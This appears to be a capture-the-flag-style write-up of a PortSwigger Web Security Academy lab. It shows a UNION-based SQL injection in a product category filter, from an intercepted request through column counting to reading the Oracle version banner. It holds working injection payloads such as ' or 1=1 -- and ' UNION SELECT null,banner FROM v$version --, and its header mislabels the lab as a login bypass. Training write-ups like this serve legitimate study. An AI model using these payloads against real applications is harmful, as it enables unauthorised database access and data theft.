

<p align="center">
  
</p>

---

- 🎯 **Target:** SQL injection Lab - vulnerability allowing login bypass
- 🧑‍💻 **Author:** sonyahack1
- 📅 **Date:** 05.10.2025
- 📊 **Difficulty:** APPRENTICE
- 📁 **Category:** Web - SQL injection (Union Based)

---


## 🔍 Request interception

> SQL injection vulnerability is in the product category filter functionality.

> I intercept the request to select an arbitrary filter (for example `pets`):

```http

GET /filter?category=Pets HTTP/2
Host: 0ae000df049fd3b9888b4dad003a001f.web-security-academy.net
Cookie: session=ywD3y9DTzSh2arJGEXIGyZfWQW2yEvto
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://0ae000df049fd3b9888b4dad003a001f.web-security-academy.net/filter?category=Pets
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Priority: u=0, i
Te: trailers

```

> To solve this lab I need to output the version of the database I'm using.

> I use UNION-based SQL injection to extract data.

> **Note:** `UNION` is an operator in the `SQL` query language that combines the results of two `SELECT` queries with the same number of columns and compatible data types.
> This way I can extract data from an arbitrary table.

> I check that `SQL` injection is possible:

```http

GET /filter?category=' or 1=1 -- HTTP/2

```
> Result:


> Ok. I determine the number of columns in the table. This is important because `UNION` requires that both parts of the `SELECT` query return the same number of columns.
> I use the `ORDER BY` operator, which is used to sort the query results by one or more columns

> I use `Intruder` to iterate through the columns.
> I generate a text file with numbers from `1 to 10` (for example, no more than 10 columns):

```bash

seq 1 10 > numbers.txt

```

> I start iterating over columns:




> At position `3` the server returns an error:


> This means that there are `2` columns in the table.

> To display the Oracle database version, I use the query `SELECT banner FROM v$version`.

> Since there are `2` columns in the table, I add a stopper in the form of `null` so that the number of columns in the two `SELECT` queries matches.

```http

GET /filter?category=' UNION SELECT null,banner FROM v$version -- HTTP/2

```
> Result:


> Getting information about the Oracle Database version.


